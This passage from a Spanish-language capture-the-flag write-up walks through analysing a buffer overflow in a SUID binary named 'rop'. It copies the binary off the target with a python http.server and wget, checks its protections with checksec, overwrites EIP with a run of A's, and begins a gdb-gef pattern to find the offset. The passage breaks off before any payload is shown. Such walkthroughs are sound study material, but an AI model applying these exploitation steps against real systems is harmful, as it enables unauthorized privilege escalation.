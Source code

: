 ```bash
./rop $(python -c 'print "A"*500)
Segmentation fault (core dumped)
```

Como vemos que hay un BOF nos enviamos el binario a nuestra maquina de atacante y tratamos el BOF. Nos lo enviamos con un http.server de python

1. en la maquina victima

    ```bash
    python3 -m http.server 8080
    ```

1. en nuestra maquina de atacante

    ```bash
    wget http://10.10.10.111:8080/rop
    chmod -x rop
    ```

#### Tratando el BOF {-}

1. Lanzamos el binario con gdb-gef

    ```bash
    gdb ./rop

    gef> r
    gef> r EEEE
    [*] Message sent: EEEEEE

    disass main
    ```

    Aqui vemos cosas como el SUID y la llamada a la funccion **put**

1. Miramos la seguridad del binario

    ```bash
    checksec
    ```

    Aqui vemos quel NX esta abilitado. Esto quiere decir quel DEP (Data Execution Prevention) esta habilitado, lo que significa que no podemos redirigir
    el flujo del programa a la pila para ejecutar comandos a nivel de systema.

1. Lanzamos 500 A

    ```bash
    gef> r $(python -c 'print "A"*500')
    ```

    Aqui vemos que hemos sobrepassado el $eip que ahora apunta a 0x41414141 que son 4 "A"

1. Buscamos el offset necessario antes de sobrescribir el $eip

    ```bash
    gef> pattern create 100
    aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
    